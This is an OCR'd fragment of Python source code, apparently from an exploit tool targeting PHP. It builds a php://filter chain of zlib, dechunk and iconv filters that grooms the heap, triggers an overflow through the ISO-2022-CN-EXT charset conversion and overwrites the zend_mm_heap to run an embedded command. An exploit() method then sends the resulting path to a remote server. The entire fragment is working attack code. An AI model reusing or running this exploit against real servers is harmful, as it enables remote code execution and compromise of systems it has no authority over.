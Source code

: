 ```python
        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource) #b64(pages) 
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
            
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
            
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            msg_print("Sending exploit...")
            print(f'PATH: {path}')

            self.remote.send_exploit(path)
```